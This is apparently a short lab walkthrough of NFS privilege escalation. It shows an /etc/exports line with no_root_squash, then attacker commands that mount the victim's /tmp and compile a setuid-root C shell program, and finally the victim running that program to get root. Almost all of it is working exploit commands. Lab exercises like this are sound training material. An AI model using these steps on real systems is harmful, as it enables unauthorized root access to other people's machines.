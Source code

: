### Victim VM
```bash
$ cat /etc/exports
	/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
### Exploitation
#### Attacker VM
```bash
$ showmount -e 10.10.146.209
	/tmp *
	
$ mkdir /tmp/1
$ mount -o rw,vers=2 10.10.146.209:/tmp /tmp/1
$ echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
$ gcc /tmp/1/x.c -o /tmp/1/x
$ chmod +s /tmp/1/x
```
#### Victim VM
```bash
$ /tmp/x
```